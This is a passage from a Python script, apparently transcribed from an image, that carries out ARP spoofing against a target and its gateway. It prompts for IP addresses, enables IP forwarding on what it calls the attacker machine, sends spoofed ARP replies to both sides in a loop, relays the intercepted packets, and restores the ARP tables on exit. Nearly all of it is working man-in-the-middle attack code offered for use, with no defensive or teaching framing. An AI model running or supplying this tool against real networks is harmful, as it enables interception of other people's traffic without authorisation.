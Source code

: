 ```python
    print(f"[*] Sent ARP restore packets {packet_count - 3}-{packet_count} to {target_ip}")

def forward_packet(packet):
    if packet.haslayer(IP):
        # Check if the packet is from the target to the gateway
        if packet[IP].src == target_ip and packet[IP].dst == gateway_ip:
            packet[Ether].dst = gateway_mac
            sendp(packet, verbose=False)
        # Check if the packet is from the gateway to the target
        elif packet[IP].src == gateway_ip and packet[IP].dst == target_ip:
            packet[Ether].dst = target_mac
            sendp(packet, verbose=False)

if __name__ == "__main__":
    # User input for target and gateway IP addresses
    target_ip = input("Enter Target IP: ")
    gateway_ip = input("Enter Gateway IP: ")
    interface = input("Enter Network Interface (e.g., eth0, wlan0): ")

    # Get MAC addresses of target and gateway
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)

    if target_mac is None or gateway_mac is None:
        print("Failed to get MAC address. Exiting.")
        sys.exit(1)

    # Enable IP forwarding on the attacker machine
    os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")

    try:
        print("Starting ARP spoofing. Press Ctrl+C to stop.")
        while True:
            # Spoof the target
            spoof(target_ip, gateway_ip, target_mac)
            # Spoof the gateway
            spoof(gateway_ip, target_ip, gateway_mac)
            time.sleep(2)
            print(f"[*] Total packets sent: {packet_count}")
    except KeyboardInterrupt:
        print("\nStopping ARP spoofing. Restoring network configuration...")
        # Restore the network configuration
        restore(target_ip, gateway_ip, target_mac, gateway_mac)
        restore(gateway_ip, target_ip, gateway_mac, target_mac)
        # Disable IP forwarding
        os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
        print("Network configuration restored. Exiting.")

```